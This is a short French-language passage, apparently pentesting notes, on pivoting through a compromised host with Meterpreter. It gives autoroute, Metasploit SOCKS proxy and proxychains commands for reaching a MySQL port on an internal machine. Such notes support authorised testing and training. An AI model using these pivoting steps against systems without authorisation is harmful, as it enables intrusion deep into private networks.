 > Par exemple, si le serveur compromis est 172.16.0.5 et que la cible est le port 3306 de 172.16.0.10, nous pourrions utiliser meterpreter:

Verifier les interfaces reseaux

```c
route
ifconfig
arp
```

Ajouter une route

```c
run autoroute -s 172.16.0.1/24
```

Voir les routes en cour...

```c
msf6 exploit(multi/handler) > route print 
```

Demmarrer un proxy

```sh
msf6 auxiliary(server/socks_proxy) > options 
msf6 auxiliary(server/socks_proxy) > set srvport 1337
msf6 auxiliary(server/socks_proxy) > set srvhost 127.0.0.1
msf6 auxiliary(server/socks_proxy) > run
```

```sh
nano /etc/proxychains.conf
	socks4 127.0.0.1 1337
```
